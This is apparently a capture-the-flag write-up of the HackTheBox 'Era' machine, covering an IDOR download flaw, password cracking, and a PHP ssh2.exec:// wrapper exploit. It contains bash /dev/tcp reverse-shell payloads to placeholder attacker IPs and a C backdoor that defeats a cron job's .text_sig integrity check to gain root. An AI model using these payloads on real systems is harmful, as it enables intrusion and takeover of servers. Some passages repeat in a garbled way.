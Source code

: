 # Era

```
Difficulty: Medium
Operating System: Linux
Hints: True
```

### Initial Enumeration

An initial nmap scan did not reveal anything particularly unusual, showing common ports like 21 (FTP) and 80 (HTTP). We added era.htb to the /etc/hosts file.

### Foothold and user.txt

Since the main website had no obvious interactive features, we moved to subdomain enumeration. Using ffuf with a large wordlist, we successfully discovered the file.era.htb subdomain.

![Web ](Pictures/htb_Era_1stWeb.png)

Bash

```
ffuf -w /path/to/top100ksubdomain.txt -H  "Host: FUZZ.era.htb" -u http://era.htb -t 200 -fs 154
```
We added file.era.htb to our /etc/hosts file and then performed a directory scan with gobuster.

![File ](Pictures/htb_Era_file2ndWeb.png)



**Access Restricted by HackTheBox Rules**

<!--

Bash

```
gobuster dir -u http://file.era.htb/ -w /usr/share/wordlists/dirb/common.txt -t 50 --exclude-length 6765 -x php
```



This scan revealed several interesting PHP pages, including register.php, login.php, download.php, and upload.php.

![File ](Pictures/htb_Era_file2ndWeb.png)

 We registered a new user and uploaded a file, which provided us with a download link containing an ID parameter (e.g., download.php?id=...). This suggested a potential Insecure Direct Object Reference (IDOR) vulnerability.

![Burp ](Pictures/htb_Era_ID_Identified.png)
![54 ](Pictures/htb_Era_ID_54Identified.png)


Using burpsuite's Intruder to brute-force the id parameter, we discovered two valid IDs (54 and 150) that returned different content. One of these, ID 54, downloaded a file named site-backup-30-08-24.zip.

![150 ](Pictures/htb_Era_ID_150_Identified.png)

![Database](Pictures/htb_Era_fuileupnzip.png)

![File](Pictures/htb_Era_sqlitefile.png)




After extracting the backup, we found a SQLite database file named filedb.sqlite. Dumping the database's contents revealed a users table with hashed passwords and security questions for six users, including an admin_eXXXXXXXXXaa account.

![Database](Pictures/htb_Era_Database.png)


#### Database ( User and Pass )

There is a database file filedb.sqlite that can be used. You can open it directly in Kali and find that there is a user table


We extracted the hashes and used john with the rockyou.txt wordlist to crack the passwords for eric and yuri.

Bash

```
john --show hash.txt
eric:amXXXXa
yuri:muXXXXX
```

![Cred ](Pictures/htb_Era_user_pass.png)

Next, we analyzed the download.php source code from the backup. 

```
<?php
session_start();

// Function to contact the database using SQLite3 prepared statements
function contactDB($query, $params = [], $type = 0) {
    global $db;

    try {
        $stmt = $db->prepare($query);

        $paramIndex = 1;
        foreach ($params as $param) {
            $stmt->bindValue($paramIndex, $param, getParamType($param));
            $paramIndex++;
        }

        $result = $stmt->execute();

        return ($type == 0) ? $result->fetchArray(SQLITE3_NUM) : $result->fetchArray(SQLITE3_ASSOC);

    } catch (Exception $e) {
        error_log("Database error: " . $e->getMessage());
        return false;
    }
}

// Helper for parameter types
function getParamType($param) {
    if (is_int($param)) return SQLITE3_INTEGER;
    if (is_float($param)) return SQLITE3_FLOAT;
    if (is_null($param)) return SQLITE3_NULL;
    return SQLITE3_TEXT;
}

// Connect to SQLite
$db = new SQLite3('filedb.sqlite');

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = $_POST['username'];
    $answer1 = $_POST['answer1'];
    $answer2 = $_POST['answer2'];
    $answer3 = $_POST['answer3'];

    $query = "SELECT user_id, security_answer1, security_answer2, security_answer3 FROM users WHERE user_name = ?";
    $user_data = contactDB($query, [$username], 1);

    if ($user_data) {
        if (
            $answer1 === $user_data['security_answer1'] &&
            $answer2 === $user_data['security_answer2'] &&
            $answer3 === $user_data['security_answer3']
        ) {
            $_SESSION['eravalid'] = true;
            $_SESSION['erauser'] = $user_data['user_id'];
            $operation_successful = true;
        } else {
            $error_message = "Incorrect answers. Please try again.";
        }
    } else {
        $error_message = "User not found.";
    }
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Log in with Security Questions</title>
    <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600&display=swap" rel="stylesheet" />
    <style>
        html, body {
            margin: 0;
            padding: 0;
            height: 100%;
            font-family: 'Inter', Arial, sans-serif;
            background: linear-gradient(120deg, #e0e7ff 0%, #f8fafc 100%);
            display: flex;
            align-items: center;
            justify-content: center;
        }

        .container {
            background-color: #fff;
            max-width: 500px;
            width: 100%;
            border-radius: 12px;
            padding: 2.5rem 2rem;
            box-shadow: 0 8px 24px rgba(0, 0, 0, 0.1);
        }

        h1 {
            font-size: 1.65rem;
            font-weight: 700;
            color: #1d3557;
            text-align: center;
            margin-bottom: 0.5rem;
        }

        p.description {
            text-align: center;
            color: #555;
            font-size: 0.95rem;
            margin-bottom: 1.5rem;
        }

        form {
            display: flex;
            flex-direction: column;
        }

        .form-group {
            margin-bottom: 1.2rem;
        }

        label {
            font-weight: 500;
            color: #374151;
            margin-bottom: 0.4rem;
            display: block;
            font-size: 1rem;
        }

        input[type="text"] {
            width: 100%;
            padding: 0.75rem 1rem;
            border: 1px solid #d1d5db;
            border-radius: 5px;
            background-color: #f9fafb;
            font-size: 1.05rem;
            transition: border 0.2s, box-shadow 0.2s;
            box-sizing: border-box;
        }

        input.answer-input {
            width: 90%;
            margin: 0 auto;
            display: block;
            text-align: center;
        }

        input[type="text"]:focus {
            border-color: #6366f1;
            background-color: #fff;
            outline: none;
            box-shadow: 0 0 0 2px rgba(99, 102, 241, 0.3);
        }

        input[type="submit"] {
            padding: 0.85rem;
            background: linear-gradient(90deg, #6366f1, #2563eb);
            color: white;
            font-size: 1.05rem;
            font-weight: 600;
            border: none;
            border-radius: 5px;
            cursor: pointer;
            transition: background 0.3s ease, box-shadow 0.3s ease;
            margin-top: 1rem;
        }

        input[type="submit"]:hover {
            background: linear-gradient(90deg, #2563eb, #6366f1);
            box-shadow: 0 4px 14px rgba(99, 102, 241, 0.2);
        }

        .error, .success {
            max-width: 320px;
            margin: 0 auto 1.2rem;
            padding: 0.9rem 1.1rem;
            border-radius: 6px;
            font-weight: 500;
            text-align: center;
        }

        .error {
            background-color: #fee2e2;
            color: #b91c1c;
            border: 1px solid #fca5a5;
        }

        .success {
            background-color: #d1fae5;
            color: #065f46;
            border: 1px solid #6ee7b7;
            font-weight: 600;
        }

        @media (max-width: 500px) {
            .container {
                padding: 2rem 1rem;
            }

            input.answer-input {
                width: 100%;
            }
        }
    </style>
    <script>
        function showSuccessAndRedirect() {
            const successMessage = document.getElementById('successMessage');
            if (successMessage) {
                successMessage.style.display = 'block';
                setTimeout(() => {
                    window.location.href = 'manage.php';
                }, 1000);
            }
        }
    </script>
</head>
<body>
    <div class="container">
        <h1>Log in Using Security Questions</h1>
        <p class="description">
            If you’ve forgotten your password, you can log in by answering your security questions instead.
        </p>
        <?php
        if (isset($error_message)) {
            echo "<div class='error'>" . htmlspecialchars($error_message) . "</div>";
        }
        if (isset($operation_successful) && $operation_successful) {
            echo "<div id='successMessage' class='success'>Login successful. Redirecting…</div>";
            echo "<script>showSuccessAndRedirect();</script>";
        }
        ?>
        <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post" autocomplete="off">
            <div class="form-group">
                <label for="username">Username</label>
                <input type="text" id="username" name="username" required autocomplete="username" class="answer-input" />
            </div>
            <div class="form-group">
                <label for="question1">What is your mother's maiden name?</label>
                <input type="text" id="question1" name="answer1" required class="answer-input" />
            </div>
            <div class="form-group">
                <label for="question2">What was the name of your first pet?</label>
                <input type="text" id="question2" name="answer2" required class="answer-input" />
            </div>
            <div class="form-group">
                <label for="question3">In which city were you born?</label>
                <input type="text" id="question3" name="answer3" required class="answer-input" />
            </div>
            <input type="submit" value="Verify and Log In" />
        </form>
    </div>
</body>
</html>
```


**We found a vulnerability in the administrator-only functionality ($_SESSION['erauser'] === 1). This feature allowed for a Server-Side Request Forgery (SSRF) via PHP stream wrappers, specifically ssh2.exec://.**

To exploit this, we needed to log in as the administrator. The reset.php and security_login.php files from the backup revealed that the admin password could be reset by answering security questions. The filedb.sqlite dump provided the correct answers for the admin account (Maria, Oliver, Ottawa).

![Admin login](Pictures/htb_Era_admin_login.png)


After the modification, log in to security_login.php again. 

![Admin login](Pictures/htb_Era_admin_login_ad.png)

If you successfully log in as admin, you can go back to download.php to find a way to exploit it.


#### PHP wrapper -> RCE

I have previously analyzed that there may be the use of pseudo-protocols, but after my attempts, the following URLs will not be directly echoed

URL

```
http://file.era.htb/?id=1&show=true&format=php://filter/read=convert.base64-encode/resource=/etc/passwd
```

After trying, I found that Yuri's account can log in to the ftp service


![FTP login](Pictures/htb_Era_ftp.png)

The php8.1_conf directory is as follows

![FTP_DIR](Pictures/htb_Era_ftp_dir.png)

I have previously analyzed that there may be the use of pseudo-protocols, but after my attempts, the following URLs will not be directly echoed

After trying, I found that Yuri's account can log in to the ftp serviceThe php8.1_conf directory is as follows

Note that there is an ssh2 extension, for usage refer to the PHP manual: PHP: Supported Protocols and Wrappers - Manual

ssh2.shell://user:pass@example.com:22/xterm
ssh2.exec://user:pass@example.com:22/usr/local/bin/somecmd
ssh2.tunnel://user:pass@example.com:22/192.168.0.1:14
ssh2.sftp://user:pass@example.com:22/path/to/filename
Try the following payload to rebound the shell. Since the URL is encoded in base64, try to avoid the presence of plus signs (which will be parsed as spaces). The solution is to insert a plus sign before the base64 encoding to eliminate the encoding.


After logging in as the administrator, we crafted a malicious URL to trigger a reverse shell using the ssh2.exec:// wrapper with eric's credentials. The URL executed a base64-encoded bash command to connect to our local listener.


Bash

```
http://file.era.htb/download.php?id=54&show=true&format=ssh2.exec://eric:amXXXXXa@127.0.0.1/bash%20-c%20"bash%20-i%20>&%20/dev/tcp/<YOUR_IP>/4444%200>&1";
```

Attacker
```
nc -lnvp 4444
```
This gave us a shell as the yuri user. We then used the cracked password to switch to the eric user and successfully retrieved user.txt.

![User flag ](Pictures/htb_Era_reverse_linp_eric_user.png)


### Privilege Escalation to Root


Our path to root started with a thorough post-exploitation enumeration. After gaining a shell as the eric user, we uploaded and ran linpeas.sh. The script highlighted a suspicious binary named monitor running as root. Looking at the processes with ps aux, we confirmed that monitor was part of a cron job executed by root.

![Root ](Pictures/htb_Era_reverse_linp_eric_user.png)

Upload linpeas.sh and find that the current user has a special file

Run pspy to view the process status

The cron job's script, /root/initiate_monitoring.sh, also used objcopy to verify a .text_sig section of the monitor binary. This indicated that we could replace the monitor binary with our own malicious code, as long as we also signed it correctly.

CRON -f -P: This is the scheduled task daemon process , indicating that the scheduled task has been triggered.

bash -c echo > /opt/AV/periodic-checks/status.log: The scheduled task cleared a log file.

objcopy --dump-section .text_sig=... /opt/AV/periodic-checks/monitor: /opt/AV/periodic-checks/monitorExtract segments from this binary file .text_sig, possibly for integrity verification or signature checking.
/root/initiate_monitoring.shA large number of concurrent executions (PID 25204–25213): This is the key, indicating that CRON triggered a script /root/initiate_monitoring.sh, but it was executed multiple times in a very short period of time .

Therefore, it can be analyzed that this file will be executed regularly, and the text_sig segment will be checked for changes. What we can do is to modify the file content to elevate privileges and copy the text_sig segment.

We compiled a custom C program that would give us a root shell.


**mal.c**

```
#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<YOUR_IP>/1337 0>&1", NULL);
    return 0;
}
```

We compiled it statically:

Bash

```
gcc mali.c -o backdoor
```

![Root ](Pictures/htb_Era_malic_backdoor.png)

Bash

```
objcopy --dump-section .text_sig=text_sig /opt/AV/periodic-checks/monitor
objcopy --add-section .text_sig=text_sig backdoor
cp backdoor monitor

```
Finally, we uploaded our newly signed monitor binary to the /opt/AV/periodic-checks directory, replacing the original.

Bash


```
chmod +x monitor
```

The next time the cron job ran, our malicious monitor binary was executed as root. We caught the reverse shell on our listener.

Bash

```
nc -lnvp 1337
```

![Root Flag](Pictures/htb_Era_Root_flag.png)

This gave us a root shell, and we successfully retrieved root.txt.


-->

#### 🏁 Summary of Attack Chain

| Step | User / Access                  | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | (Local) | Nmap, Subdomain Fuzzing | Identified `era.htb` and found subdomain `file.era.htb` via `ffuf`. |
| 2 | (Web) | Dirsearch, User Registration | Discovered `register.php`, allowing for new user account creation on `file.era.htb`. |
| 3 | (Web) | IDOR & File Download | Used `burpsuite` Intruder to brute-force file IDs, finding a `site-backup` archive. |
| 4 | (Local) | Archive Analysis & Hash Cracking | Extracted a `filedb.sqlite` database from the backup and cracked two user passwords (`eric:amXXXXa`, `yuri:muXXXXX`) using `john`. |
| 5 | (Web) | LFI & SSH2 Wrapper Exploit | Analyzed `download.php` source code, found an admin-only feature vulnerable to LFI, and used `ssh2.exec://` to get a reverse shell. |
| 6 | yuri -> eric | Shell Escalation & User Enumeration | Initially gained a shell as `yuri`, then switched to `eric` using the cracked password to retrieve `user.txt`. |
| 7 | eric | Cron Job Enumeration (pspy) | Identified a `root` owned cron job that periodically executed a binary named `monitor` in `/opt/AV/periodic-checks`. |
| 8 | eric | Binary Analysis & Code Signing | Discovered the cron job was checking a `.text_sig` section of the `monitor` binary for integrity. |
| 9 | eric -> root | Malicious Binary Replacement | Created a malicious `monitor` binary, signed it with the correct key to bypass the integrity check, and replaced the original binary. |
| 10 | root | Root Shell | The cron job executed the malicious `monitor` binary as `root`, granting a reverse shell and the `root.txt` flag. |





**Pwned! Era**